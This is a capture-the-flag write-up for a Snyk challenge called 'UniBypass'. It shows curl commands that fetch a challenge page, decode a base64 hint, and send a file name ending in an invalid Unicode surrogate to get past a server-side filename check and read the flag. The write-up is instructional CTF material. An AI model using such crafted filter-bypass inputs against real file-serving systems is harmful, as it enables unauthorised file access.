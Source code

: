 # UniBypass

If you wanna be my parser, you gotta get with my friend.

## Objective

Just from the title we can assume, that there is a possible form to fill and bypass.
The languages are python and JavaScript, so I could assume that there will be an intresting script embedded, possibly, into the html.


## Resources

***Link***: https://ctf-101.snyk.io/challenges#UniBypass

***Server***: http://35.211.91.235:8000


## Solution

We can retrive the HTML page with the curl command as follow below:

```
$curl -X GET 35.211.91.235:8000 >> HelloHax0R.html                      
```
***Results***

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3394  100  3394    0     0  13872      0 --:--:-- --:--:-- --:--:-- 13909


If we take a look into the file we can find two intresting hints.
The first is about the Javascript code that handles the form text to fill.

This script indicates us, that there is a logic regarding the  fetching of the file.


```
<script>
        window.onload = function(){
            document.querySelector('#submit').addEventListener('click', submit);
        }

        async function submit(){
            const file_name = document.querySelector('#file_name').value;
            const response = await fetch('/', {
                method:'POST',
                headers:{
                    'content-type':'application/json'
                },
                body: JSON.stringify({file_name})
            })
            const responseData = await response.json();
            alert(responseData.response);
        }
    </script>

```

In this possible solution I will go through curl command and not the form text.
This is the command that I will use to exploit the form, changing only the value of *file_name*.


```
$curl -X POST 35.211.91.235:8000/ -H "Content-Type : application/json" -d '{"file_name":"flag"}' 

```

***Response***

{"response":"computer says no"}                                                                                                        
Therefore, let's go for the second hint, a base64 encoded, commented string on the bottom of the page.


```
<!--T25jZSBJIHdhcyBwYXJzaW5nLXllYXJzLW9sZCBteSBtb21teSB0b2xkIG1lCm1ha2Ugc3VyZSB5b3Ugd29yayB3LyBweXRob24gb3IgeW91J2xsIGdldCBsb25lbHkK-->
</body>
</html>

```
If we decode the string with the command base64 showed below:


```
echo "T25jZSBJIHdhcyBwYXJzaW5nLXllYXJzLW9sZCBteSBtb21teSB0b2xkIG1lCm1ha2Ugc3VyZSB5b3Ugd29yayB3LyBweXRob24gb3IgeW91J2xsIGdldCBsb25lbHkK" >> suspiciosString 


base64 -d suspiciosString


```
***Results***

Once I was parsing-years-old my mommy told me
make sure you work w/ python or you'll get lonely

*From this phrase let's pick up some key words for reasearch*

After some research I found a good article, which incate some invalid character to use https://charbase.com/d86e-unicode-invalid-character.

I tried different value and I assume that the form could be exploited with "flag/ud88*", below an example:

```
curl -X POST "http://35.211.91.235:8000/" -H "Content-Type: application/json" -d '{ "file_name" : "flag\ud88A"}'
```
***Results***

{"response":"SNYK{FLAG}"}






